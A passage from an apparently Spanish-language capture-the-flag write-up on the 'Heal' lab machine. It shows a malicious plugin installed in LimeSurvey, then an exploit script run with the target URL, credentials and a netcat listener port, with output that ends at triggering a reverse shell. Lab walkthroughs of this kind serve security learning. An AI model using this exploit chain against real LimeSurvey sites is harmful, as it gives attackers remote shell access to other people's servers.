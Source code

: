 ![[Pasted image 20250516152254.png]]

En la página de plugins podremos ver el plugin malicioso que acabamos de instalar

![image-center](/assets/images/posts/heal-limesurvey-file-upload-3.png)
{: .align-center}

Con el plugin cargado e instalado, podremos ejecutar el exploit, donde enviaremos la `url`, las credenciales y el puerto de nuestro listener que previamente debimos establecer con `netcat`, en mi caso el puerto `4444`

~~~ bash
python exploit.py http://take-survey.heal.htb ralph 147258369 4444

 _   _ _  _  ____  _ ____  _     _ 
| \ | | || |/ ___|/ |  _ \| |   / |
|  \| | || |\___ \| | |_) | |   | |
| |\  |__   _|__) | |  _ <| |___| |
|_| \_|  |_||____/|_|_| \_\_____|_|
                                   

[INFO] Retrieving CSRF token for login...
[SUCCESS] CSRF Token Retrieved: TEVTaDZmNWNMbmdSM2dQbGpfcjIzak84dU5TY0pkVEHEtmlrMEIpVRNh8gpq_x48PjZSfQz4iERWceqyZkJb6w==

[INFO] Sending Login Request...
[SUCCESS] Login Successful!

[INFO] Uploading Plugin...
[SUCCESS] Plugin Uploaded Successfully!

[INFO] Installing Plugin...
[SUCCESS] Plugin Installed Successfully!

[INFO] Activating Plugin...
[SUCCESS] Plugin Activated Successfully!

[INFO] Triggering Reverse Shell...

~~~
